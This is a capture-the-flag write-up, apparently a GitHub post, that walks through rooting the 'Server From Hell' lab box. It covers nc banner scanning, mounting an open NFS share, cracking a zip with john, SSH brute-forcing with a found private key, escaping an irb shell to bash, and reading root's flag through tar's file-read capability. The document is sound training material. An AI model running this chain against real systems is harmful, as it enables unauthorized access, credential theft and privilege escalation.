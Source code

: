 # SERVER FROM HELL WRITEUP
#### Author: DeadPackets
## [Task 1] Flag.txt | "Start at port 1337 and enumerate your way."
#### First connect to port 1337 with nc
```
Welcome traveller, to the beginning of your journey
To begin, find the trollface
Legend says hes hiding on the first 100 ports
Try printing the banners from the ports
```

### Write a simple script to connect from ports 1 - 100:
```bash
#!/bin/bash
for port in {1..100}
do
    nc 10.10.10.10 -p $port
done
```

Output of port 12345
```
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```

### NFS runs on port 2049
```
command:
showmount -e 10.10.10.10

output:
Export list for 10.10.10.10:
/home/nfs *
```

### Then just simply mount it
```
sudo mount -t nfs 10.10.0.10:/home/nfs /var/backups
```

### There is a file named backup.zip
#### But its password protected
```
zip2john backup.zip > hash
john hash -w ~/wordlists/rockyou.txt
```

### Once you've uncompressed the zip, we can see that it's hades's home directory
#### Output:
```
authorized_keys  flag.txt  hint.txt  id_rsa  id_rsa.pub
```

### Nice, we have the flag and an id_rsa key
##### The problem now is that we don't know which port ssh is running on, lets check the hint.
```
output:
2500-4500
```

## [Task 2] User.txt
#### this is probably refering the to range of ports that ssh is running on
#### lets modify our script
```bash
#!/bin/bash
for port in {2500..4500}
do
    ssh -i id_rsa hades@10.10.10.10 -p $port
done
```

### Now we just wait until we get a login prompt
#### Nice, we have a shell
```
 Welcome to hell. We hope you enjoy your stay!
 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

 ██░ ██ ▓█████  ██▓     ██▓    
▓██░ ██▒▓█   ▀ ▓██▒    ▓██▒    
▒██▀▀██░▒███   ▒██░    ▒██░    
░▓█ ░██ ▒▓█  ▄ ▒██░    ▒██░    
░▓█▒░██▓░▒████▒░██████▒░██████▒
 ▒ ░░▒░▒░░ ▒░ ░░ ▒░▓  ░░ ▒░▓  ░
 ▒ ░▒░ ░ ░ ░  ░░ ░ ▒  ░░ ░ ▒  ░
 ░  ░░ ░   ░     ░ ░     ░ ░   
 ░  ░  ░   ░  ░    ░  ░    ░  ░
                               
 Welcome to hell. We hope you enjoy your stay!
 irb(main):001:0>
```
### We have a shell, but its an interactive ruby shell
#### A simple command will allow us to spawn a shell
```
irb(main):001:0> system("/bin/bash")
```

### And we have user.txt
```
hades@hell:~$ ls
user.txt
```

## [Task 3] Root.txt
#### Now all we have to do is escalate our privs
#### Looking at the hint, we know that "getcap" has something to do with our escalation.
We can find capabilties with the following command
```
hades@hell:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```

### Looking at the output, we know that /bin/tar has read capabilites
##### It took me an embarrassingly long amount of time to realize that we did not have write access to /home/hades
##### So we need to do this in /dev/shm
#### tar -cvf root.tar /root/root.txt
#### tar -xvf root.tar
```
hades@hell:/dev/shm$ tar -cvf root.tar /root/root.txt
tar: Removing leading `/' from member names
/root/root.txt
hades@hell:/dev/shm$ ls
root.tar
hades@hell:/dev/shm$ tar -xvf root.tar
root/root.txt
hades@hell:/dev/shm$ ls
root  root.tar
hades@hell:/dev/shm$ cd root
hades@hell:/dev/shm/root$ ls
root.txt
```

## And we've rooted the box, nice


